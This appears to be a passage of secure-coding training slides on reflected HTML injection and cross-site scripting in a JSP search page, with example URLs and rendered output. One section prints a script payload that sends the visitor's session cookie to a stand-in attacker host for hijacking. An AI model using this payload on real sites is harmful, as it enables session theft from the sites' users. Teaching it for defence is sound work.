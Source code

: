
---

# ❌ Benign Usage

` https://my-little-application.com/search.jsp?searchValue=blablubb `

results in the following HTML on the `results.jsp` page:

```html
Search results for <b>blablubb</b>:
```

rendering as:

<hr>

Search results for <b>blablubb</b>:


---

# ❌ Exploit Example (HTML Injection)

` https://my-little-application.com/search.jsp?searchValue=</b><img
src="https://picsum.photos/id/237/100/100"/><b> `

results in the following HTML on the `results.jsp` page:

```html
Search results for
  <b></b><img src="https://picsum.photos/id/237/100/100"/><b></b>:
```

rendering as:

<hr>

Search results for <b></b><img
src="https://picsum.photos/id/237/100/100"/><b></b>:



---

# ❌ XSS Attack Payload Examples

#### Stealing User Session

```javascript
<script>
  new Image().src="http://ev.il/hijack.php?c="+encodeURI(document.cookie);
</script>
```

#### Site Defacement
